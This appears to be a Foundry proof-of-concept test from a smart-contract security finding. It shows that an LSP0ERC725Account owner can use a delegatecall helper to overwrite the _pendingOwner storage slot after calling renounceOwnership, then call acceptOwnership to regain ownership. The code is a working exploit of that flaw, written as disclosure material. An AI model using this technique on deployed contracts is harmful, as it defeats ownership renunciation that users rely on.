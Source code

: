 ```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../../contracts/LSP0ERC725Account/LSP0ERC725Account.sol";

contract Implementation {
    // _pendingOwner is at slot 3 for LSP0ERC725Account
    bytes32[3] __gap;
    address _pendingOwner; 

    function setPendingOwner(address newPendingOwner) external {
        _pendingOwner = newPendingOwner;
    }
}

contract RenounceOwnership_POC is Test {
    LSP0ERC725Account account;

    function setUp() public {
        // Deploy LSP0 account with this address as owner
        account = new LSP0ERC725Account(address(this));
    }

    function testCanRegainOwnership() public {
        // Call renounceOwnership() to initiate the process
        account.renounceOwnership();

        // Overwrite _pendingOwner using a delegatecall
        Implementation implementation = new Implementation();
        account.execute(
            4, // OPERATION_4_DELEGATECALL
            address(implementation),
            0,
            abi.encodeWithSelector(Implementation.setPendingOwner.selector, address(this))
        );

        // _pendingOwner is now set to this address
        assertEq(account.pendingOwner(), address(this));

        // Call renounceOwnership() again to renounce ownership
        vm.roll(block.number + 200);
        account.renounceOwnership();

        // Owner is now set to address(0)
        assertEq(account.owner(), address(0));

        // Call acceptOwnership() to regain ownership
        account.acceptOwnership();
        
        // Owner is now set to address(this) again
        assertEq(account.owner(), address(this));
    }
}
```
